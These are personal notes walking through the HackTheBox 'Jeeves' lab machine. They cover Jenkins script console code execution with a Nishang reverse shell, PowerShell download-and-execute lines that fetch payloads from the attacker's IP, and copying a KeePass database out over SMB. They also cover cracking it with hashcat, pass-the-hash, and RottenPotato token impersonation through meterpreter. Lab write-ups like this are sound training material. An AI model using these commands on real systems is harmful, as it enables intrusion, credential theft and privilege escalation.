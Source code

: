 2018 (old)

Discover two web apps. Use gobuster to discover /askjeeves directory. Use jenkins script console to get code execution/ initial access using Nishang reverse shell. Discover KeePass database and use keepass2john to extract database hash, crack hash, and pass the hash using pth-winexe to escalate privileges. 
### NMAP

```
sudo nmap -sC -sV -oN nmap-jeeves 10.10.10.63
```

![[HackTheBox/Windows/attachments/Pasted image 20250519220133.png]]
- 80, 135, 445, 50000

### Enumerate websites

10.10.10.63

10.10.10.63:50000
![[HackTheBox/Windows/attachments/Pasted image 20250519220315.png]]

### Initial Access

Exploit Jenkins script console (Groovy) to gain code execution. 

1. Modify Nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) with our IP and port.

2. Serve up the reverse shell using #pythonhttpserver over port 80
![[HackTheBox/Windows/attachments/Pasted image 20250520211333.png]]
3. Set up nc listener 
4. Then in the JSC, download the reverse shell
![[HackTheBox/Windows/attachments/Pasted image 20250520211546.png]]
5. Catch the reverse shell 

### Enumerate for Priv Esc 

#### PowerUp
Download [dev branch of PowerSploit ](https://github.com/PowerShellMafia/PowerSploit/tree/dev)

```
git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
```

Set up #pythonhttpserver to grab PowerUp  

```
/PowerSploit/Privesc/PowerUp.ps1
```

Download PowerUp

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.30/PowerSploit/Privesc/PowerUp.ps1')
```

Run PowerUp
```
Invoke-AllChecks
```

![[HackTheBox/Windows/attachments/Pasted image 20250520212343.png]]

##### PowerUp Results 

Found SeImpersonatePrivilege -> RottenPotatoes is going to work!
![[HackTheBox/Windows/attachments/Pasted image 20250520212632.png]]

#### Enumerating file system 

Found KeePass database CEH.kdbx in Documents folder 

![[HackTheBox/Windows/attachments/Pasted image 20250520212921.png]]

#### Transfer CEH.kdbx using SMB 

On Kali box
```
impacket-smbserver PleaseSubscribe `pwd`
```

On Target box 
```
New-PSDrive -Name "NameofDrive" -PSProvider "FileSystem" -Root "\\10.10.14.30\NameofShare"
```

Change into drive on target box
```
cd NameofDrive
```

Copy file to transfer into the directory 
```
cp C:\Windows\kohsuke\Documents\CEH.kdbx .
```

Access the file locally 
![[HackTheBox/Windows/attachments/Pasted image 20250520213946.png]]


#### Use KeePass2John to Obtain KeePass Database hash

```
keepass2john CEH.kdbx
```

![[HackTheBox/Windows/attachments/Pasted image 20250520214318.png]]

Lookup hash mode for KeePass 
[Hash modes](https://hashcat.net/wiki/doku.php?id=example_hashes)

We have KeePass 2 AES / without key file (13400)

Crack the hash using rockyou wordlist

```
./hashcat -m 13400 jeeves-keepass.hash /usr/share/wordlist/rockyou.txt
```

Got the password to the database: moonshine1

Some passwords and an NTLM hash within
![[HackTheBox/Windows/attachments/Pasted image 20250520215222.png]]

### Priv Esc
#### Method - Pass the Hash 
Use [pth-winexe](https://github.com/byt3bl33d3r/pth-toolkit/tree/master) 
```
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```
![[HackTheBox/Windows/attachments/Pasted image 20250520215339.png]]

View root flag hidden via Alternate Data Streams (ADS)
```
dir /r
```

![[HackTheBox/Windows/attachments/Pasted image 20250520220129.png]]

##### Method - SeImpersonate 

Detection 
```
whoami /priv
```

[Resource for Rotten Potato ](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

[Tokens for Priv Esc ](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)

Use [Unicorn](https://github.com/trustedsec/unicorn) to get MSF Shell 

Use PS Example 

```
python unicorn.py windows/meterpreter/reverse_https 10.10.14.30 443
```

![[HackTheBox/Windows/attachments/Pasted image 20250521192135.png]]

Generated reverse shell code in powershell_attack.txt -> rename to msf.txt

Move this file and unicorn.rc file to web server directory 

![[HackTheBox/Windows/attachments/Pasted image 20250521192344.png]]

Move unicorn.rc file to msf directory and start metasploit 

```
msfconsole -r unicorn.rc
```

Grab rotten potato .exe file from [GitHub](https://github.com/foxglovesec/RottenPotato)

Unicorn.rc is basically metasploit listener 

![[HackTheBox/Windows/attachments/Pasted image 20250521192754.png]]

On target box -> download the msf.txt 

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.30/msf.txt')
```

Get meterpreter session 

![[HackTheBox/Windows/attachments/Pasted image 20250521193056.png]]

```
sessions -i 1
```

Enter shell 
```
shell
```

```
whoami /priv
```

```
exit
```

```
load incognito
```

Execute rotten potato.exe 
```
execute -cH -f rottenpotato.exe
```

List tokens 
```
list_tokens -g
```
![[HackTheBox/Windows/attachments/Pasted image 20250521193605.png]]

Impersonate administrative user token 
```
impersonate_token "BUILTIN\\Administrators"
```

![[HackTheBox/Windows/attachments/Pasted image 20250521193518.png]]

⭐got root⭐